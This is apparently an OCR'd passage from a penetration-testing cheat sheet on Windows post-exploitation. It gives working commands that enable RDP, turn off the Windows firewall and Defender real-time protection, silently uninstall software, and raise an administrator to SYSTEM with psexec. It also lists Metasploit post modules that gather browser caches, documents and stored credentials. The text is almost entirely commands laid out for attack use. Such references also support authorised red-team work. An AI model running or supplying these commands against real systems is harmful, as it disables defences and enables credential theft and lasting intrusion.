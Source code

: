         -   With powershell

            -   PS \> Set-itemproperty \'HKLM:\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\\' -Name \"fDenyTSConnections\" -value 0

            -   PS \> Set-ItemProperty \'HKLM:\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp\\\' -Name \"UserAuthentication\" -value 1

            -   PS \> Enable-NetFirewallRule -DisplayGroup \"Remote Desktop\"

    -   **Disable windows firewall**

        -   netsh firewall set opmode disable

        -   or

        -   Netsh Advfirewall show allprofiles

        -   NetSh Advfirewall set allprofiles state off

    -   **Disable windows defender**

        -   sc config WinDefend start= disabled

        -   sc stop WinDefend

        -   Set-MpPreference -DisableRealtimeMonitoring \$true

    -   **Uninstalling a software**

        -   wmic product get name /value (this gets software names) 

        -   wmic product where name=\"XXX\" call uninstall /Interactive:Off (this uninstalls software)

    -   **From admin to system**

        -   "psexec.exe --S --I --D cmd.exe"  elevate from admin to system authority

    -   **Metasploit**

        -   **Modules**

            -   search type:post platform:{windows/linux} 

            -   exploit/windows/local/\<tab\>                \# to view all modules

            -   use post/windows/gather/enum\_            \#doubletab to see all you can enum

            -   run post/windows/gather/enum\_firefox \# Get firefox cache

            -   run post/windows/gather/enum\_chrome \# Get Chrome cache

            -   run post/windows/gather/enum\_ie \# Get IE cache

            -   run post/windows/gather/ Forensics/enum\_drives \# View memory information

            -   run post/windows/gather/enum\_applications \# Get installation software information

            -   run post/windows/gather/dumplinks \# Get recently accessed documents, link information

            -   use post/windows/manage/migrate \# migrate the process to notepad.exe by default

            -   use post/windows/gather/credentials/    \#harvest some credentials

        -   **Meterpreter\>**run winenum in //gather a lot of info (one command automate many post modules)
